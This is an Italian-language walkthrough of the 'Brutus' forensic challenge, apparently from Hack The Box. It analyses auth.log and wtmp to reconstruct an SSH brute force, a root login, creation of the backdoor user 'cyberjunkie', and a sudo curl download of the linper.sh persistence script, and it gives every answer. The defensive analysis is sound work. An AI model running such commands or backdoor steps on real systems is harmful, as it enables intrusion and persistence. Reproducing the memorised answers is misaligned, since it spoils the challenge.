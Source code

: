 ```yaml
---
title: "Brutus Walkthrough"
description: "In questo Sherlock molto facile, ti familiarizzerai con i log Unix auth.log e wtmp. Esploreremo uno scenario in cui un server Confluence è stato compromesso tramite brute-force sul servizio SSH. Dopo aver ottenuto l’accesso, l’attaccante ha svolto ulteriori attività rilevabili tramite auth.log. Anche se auth.log viene usato principalmente per l’analisi dei brute-force, andremo a sfruttare tutto il suo potenziale nell’indagine, inclusi aspetti di privilege escalation, persistenza e persino visibilità sull’esecuzione di comandi."
author: dua2z3rr
date: 2025-09-13 1:00:00
categories: [Sherlocks]
tags: ["Area di Interesse: Common Applications", "Area di Interesse: Software & OS exploitation", "Area di Interesse: Authentication", "Area di Interesse: Web Application", "Area di Interesse: Vulnerability Assessment", "Vulnerabilità: Misconfiguration", "Vulnerabilità:  Hard-coded Credentials", "Codice: Java"]
---
```


## Introduzione

### Domande
1. Analizza il file auth.log. Qual è l’indirizzo IP usato dall’attaccante per effettuare il brute force?
2. I tentativi di brute force hanno avuto successo e l’attaccante ha ottenuto accesso a un account sul server. Qual è lo username dell’account compromesso?
3. Identifica il timestamp UTC in cui l’attaccante ha effettuato manualmente l’accesso al server e ha avviato una sessione terminale per raggiungere i suoi obiettivi. L’orario di login sarà diverso da quello di autenticazione e si trova nell’artifact wtmp.
4. Le sessioni SSH di login vengono tracciate e viene assegnato loro un numero di sessione al momento dell’accesso. Qual è il numero di sessione attribuito alla sessione dell’attaccante per l’utente dalla domanda 2?
5. L’attaccante ha aggiunto un nuovo utente come parte della sua strategia di persistenza sul server e ha concesso a questo account privilegi elevati. Qual è il nome di questo account?
6. Qual è l’ID della sub-tecnica MITRE ATT&CK utilizzata per la persistenza tramite creazione di un nuovo account?
7. A che ora è terminata la prima sessione SSH dell’attaccante secondo auth.log?
8. L’attaccante ha effettuato il login nel suo account backdoor e ha utilizzato i privilegi elevati per scaricare uno script. Qual è il comando completo eseguito usando sudo?

### Overview

Per completare questo sherlock ci viene fornita una zip. Questa zip contiene 3 file:

1. **auth.log**: file di testo che salva tutti i login (che hanno successo o no), tentativi di sudo e altri passaggi nell'autenticazione. normalmente si trova in `/var/log/auth.log`.
2. **wtmp**: file che traccia login e logout di un sistema linux. È possibile leggere il contenuto tramite il comando `utmpdump`. Si trova in `/var/log/btmp`.
3. **utmp.py**: script di python per leggere wtmp.

## Risposte

### Analizza il file auth.log. Qual è l’indirizzo IP usato dall’attaccante per effettuare il brute force?

Cominciamo a leggere dall'inizio il log file `auth.log`.

```log
Mar  6 06:31:31 ip-172-31-35-28 sshd[2325]: Invalid user admin from 65.2.161.68 port 46380
Mar  6 06:31:31 ip-172-31-35-28 sshd[2325]: Received disconnect from 65.2.161.68 port 46380:11: Bye Bye [preauth]
Mar  6 06:31:31 ip-172-31-35-28 sshd[2325]: Disconnected from invalid user admin 65.2.161.68 port 46380 [preauth]
Mar  6 06:31:31 ip-172-31-35-28 sshd[620]: error: beginning MaxStartups throttling
Mar  6 06:31:31 ip-172-31-35-28 sshd[620]: drop connection #10 from [65.2.161.68]:46482 on [172.31.35.28]:22 past MaxStartups
Mar  6 06:31:31 ip-172-31-35-28 sshd[2327]: Invalid user admin from 65.2.161.68 port 46392
Mar  6 06:31:31 ip-172-31-35-28 sshd[2327]: pam_unix(sshd:auth): check pass; user unknown
Mar  6 06:31:31 ip-172-31-35-28 sshd[2327]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=65.2.161.68
<SNIP>
```

Vediamo che i tentativi falliti di login provengono dallo stesso ip. Questi tentativi di login si presentano molte volte. Possiamo quindi assumere con certezza che l'IP dell'attaccante è quello.

Risposta: `65.2.161.68`

### I tentativi di brute force hanno avuto successo e l’attaccante ha ottenuto accesso a un account sul server. Qual è lo username dell’account compromesso?

Vediamo, proprio all'inizio del file (riga 12), che l'attacco ha avuto successo sull'utente **root**.

```log
<SNIP>
Mar  6 06:19:52 ip-172-31-35-28 sshd[1465]: AuthorizedKeysCommand /usr/share/ec2-instance-connect/eic_run_authorized_keys root SHA256:4vycLsDMzI+hyb9OP3wd18zIpyTqJmRq/QIZaLNrg8A failed, status 22
Mar  6 06:19:54 ip-172-31-35-28 sshd[1465]: Accepted password for root from 203.101.190.9 port 42825 ssh2
Mar  6 06:19:54 ip-172-31-35-28 sshd[1465]: pam_unix(sshd:session): session opened for user root(uid=0) by (uid=0)
Mar  6 06:19:54 ip-172-31-35-28 systemd-logind[411]: New session 6 of user root.
Mar  6 06:19:54 ip-172-31-35-28 systemd: pam_unix(systemd-user:session): session opened for user root(uid=0) by (uid=0)
<SNIP>
```

Risposta: `root`

### Identifica il timestamp UTC in cui l’attaccante ha effettuato manualmente l’accesso al server e ha avviato una sessione terminale per raggiungere i suoi obiettivi. L’orario di login sarà diverso da quello di autenticazione e si trova nell’artifact wtmp.

Utilizzando lo script di python `utmp.py` nella zip possiamo vedere le date dei login. Le prime volte in cui l'attaccante si è autenticato nell'utente **root** era grazie all'attacco brute force. Questo lo capiamo perchè si scollega istantaneamente. Perciò inseriamo la data di quando l'attaccante si è collegato come utente **root** l'ultima volta.

```txt
"RUN_LVL"	"53"	"~"	"~~"	"runlevel"	"6.2.0-1018-aws"	"0"	"0"	"0"	"2024/03/06 07:17:29"	"538024"	"0.0.0.0"
"USER"	"1583"	"pts/0"	"ts/0"	"root"	"203.101.190.9"	"0"	"0"	"0"	"2024/03/06 07:19:55"	"151913"	"203.101.190.9"
"USER"	"2549"	"pts/1"	"ts/1"	"root"	"65.2.161.68"	"0"	"0"	"0"	"2024/03/06 07:32:45"	"387923"	"65.2.161.68"
"DEAD"	"2491"	"pts/1"	""	""	""	"0"	"0"	"0"	"2024/03/06 07:37:24"	"590579"	"0.0.0.0"
"USER"	"2667"	"pts/1"	"ts/1"	"cyberjunkie"	"65.2.161.68"	"0"	"0"	"0"	"2024/03/06 07:37:35"	"475575"	"65.2.161.68"
```

> Ricordati che la risposta deve essere fornita nella timezone UTC. Visto che nel momento in cui ho usato lo script di python mi trovavo in Italia, devo tornare indietro di un ora.
{: .prompt-warning }

Risposta: `2024-03-06 06:32:45`

### Le sessioni SSH di login vengono tracciate e viene assegnato loro un numero di sessione al momento dell’accesso. Qual è il numero di sessione attribuito alla sessione dell’attaccante per l’utente dalla domanda 2?

Il numero di sessione si può leggere sotto l'entry del log che comunica il login con successo.

```log
Mar  6 06:32:44 ip-172-31-35-28 sshd[2491]: Accepted password for root from 65.2.161.68 port 53184 ssh2
Mar  6 06:32:44 ip-172-31-35-28 sshd[2491]: pam_unix(sshd:session): session opened for user root(uid=0) by (uid=0)
Mar  6 06:32:44 ip-172-31-35-28 systemd-logind[411]: New session 37 of user root.
```

La sessione che dobbiamo dare come risposta è sempre quella dove l'attaccante si collega manualmente.

Risposta: `37`

### L’attaccante ha aggiunto un nuovo utente come parte della sua strategia di persistenza sul server e ha concesso a questo account privilegi elevati. Qual è il nome di questo account?

Possiamo vedere sul file `auth.log` alla riga 338 la creazione da parte di root di un nuovo utente.

```log
Mar  6 06:34:18 ip-172-31-35-28 useradd[2592]: new user: name=cyberjunkie, UID=1002, GID=1002, home=/home/cyberjunkie, shell=/bin/bash, from=/dev/pts/1
Mar  6 06:34:26 ip-172-31-35-28 passwd[2603]: pam_unix(passwd:chauthtok): password changed for cyberjunkie
Mar  6 06:34:31 ip-172-31-35-28 chfn[2605]: changed user 'cyberjunkie' information
```

Risposta: `cyberjunkie`

### Qual è l’ID della sub-tecnica MITRE ATT&CK utilizzata per la persistenza tramite creazione di un nuovo account?

Cerchiamo online per la risposta.

![Desktop View](/assets/img/brutus/brutus-mitre-research.png)

Per questa tecnica esistono più sotto-tecniche basate sul tipo di account creato.

![Desktop View](/assets/img/brutus/brutus-mitre-sub-technique.png)

L'attaccante ha creato un utente locale.

Risposta: `T1136.001`

### A che ora è terminata la prima sessione SSH dell’attaccante secondo auth.log?

Per rispondere a questa domanda basta vedere la prima sessione dall'attaccante sul file wtmp (ci serve questo format per la risposta), e leggere quando è terminata (DEAD).

```txt
"USER"	"2549"	"pts/1"	"ts/1"	"root"	"65.2.161.68"	"0"	"0"	"0"	"2024/03/06 07:32:45"	"387923"	"65.2.161.68"
"DEAD"	"2491"	"pts/1"	""	""	""	"0"	"0"	"0"	"2024/03/06 07:37:24"	"590579"	"0.0.0.0"
```

Risposta: `2024-03-06 06:37:24`

### L’attaccante ha effettuato il login nel suo account backdoor e ha utilizzato i privilegi elevati per scaricare uno script. Qual è il comando completo eseguito usando sudo?

Controlliamo i comandi utilizzati dopo il login dell'account **cyberjunkie**.

```log
<SNIP>
Mar  6 06:39:01 ip-172-31-35-28 CRON[2764]: pam_unix(cron:session): session closed for user confluence
Mar  6 06:39:38 ip-172-31-35-28 sudo: cyberjunkie : TTY=pts/1 ; PWD=/home/cyberjunkie ; USER=root ; COMMAND=/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
Mar  6 06:39:38 ip-172-31-35-28 sudo: pam_unix(sudo:session): session opened for user root(uid=0) by cyberjunkie(uid=1002)
Mar  6 06:39:39 ip-172-31-35-28 sudo: pam_unix(sudo:session): session closed for user root
<SNIP>
```

Risposta: `/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh`
